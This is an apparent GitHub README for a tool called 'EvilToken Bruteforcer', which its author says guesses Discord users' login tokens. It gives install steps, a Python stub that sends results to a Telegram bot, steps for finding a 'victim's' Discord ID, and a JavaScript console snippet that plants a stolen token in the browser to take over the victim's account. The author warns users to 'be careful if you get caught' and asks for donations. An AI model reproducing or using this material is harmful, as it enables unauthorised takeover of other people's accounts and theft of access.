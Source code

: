 # EvilToken Bruteforcer.
This script is used to bruteforce or guess the login access token for Discord users. I'm just improving the code, thanks to @NAOYY for publishing the source code. Cross Platform, has been tested via Macintosh OS and Microsoft Windows systems. I don't know if it works on Termux or not.

## Screenshots Program.
![Screenshot MacOS](https://i.ibb.co/zxSLDDP/photo-2021-02-03-12-36-19.jpg)
![Screenshot Windows](https://i.ibb.co/rpzQztd/Entod-Token-SS.jpg)
## Installation

Python version 3 is required, and of course [pip](https://pip.pypa.io/en/stable/) to install the module.

```python
pip install signal
pip install discord
pip install colorama
```

## How to use

It's quite easy, just edit the source code to your personal info as you like. The only thing left to do is edit the Bot Token and their respective User IDs.

```python
# Send messages to Telegram Bot.
def sendteleg(botmsg):
   bot_token = 'BotTokenLo'
   bot_chatID = 'UserIDLo'
```

Also make sure to change the Discord setting to Developer Mode to get the Victim Discord User ID. The trick is to go to Settings > Appearance > Developer Mode. If it's been activated, just right-click on the victim and at the bottom it says "Copy ID". Just put it in the program.

![bro](https://i.ibb.co/tz4zYTg/image.png)

The bruteforcing success? Just login using the token that was successfully bruteforced. The way to login via token is actually quite easy to log in. Just need a little knowledge about the browser.

1. Open Incognito Mode in Google Chrome
2. Go to https://discord.com/app
3. Open Developer Tools and go to Console
4. Copy Paste the following code

```js
(function() {
    window.t = "CHANGE THIS TO A VICTIM TOKEN"
    window.localStorage = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage;
    window.setInterval(() => window.localStorage.token = `"${window.t}"`);
    window.location.reload();
})();
```

5. Enter and boom, logged in.

## Contributing
It's free what you want to do, but as long as you don't buy and sell, this program is the same as claiming to be made by you. Just be careful if you get caught, asu is really a skidder. If you have suggestions, please contact me: @FallenV4 via Telegram.

Please donate to me, I don't have any income for this.

[PayPal](https://paypal.me/akmalpv4) |
[Saweria](https://saweria.co/fallenv4) | [YouTube](https://www.youtube.com/channel/UCPlVO-tSnP8TCMDKLx49Rwg) | [Group Telegram](https://t.me/fallenkuy)
## Why did you do this?
There's a reason, for sure :).
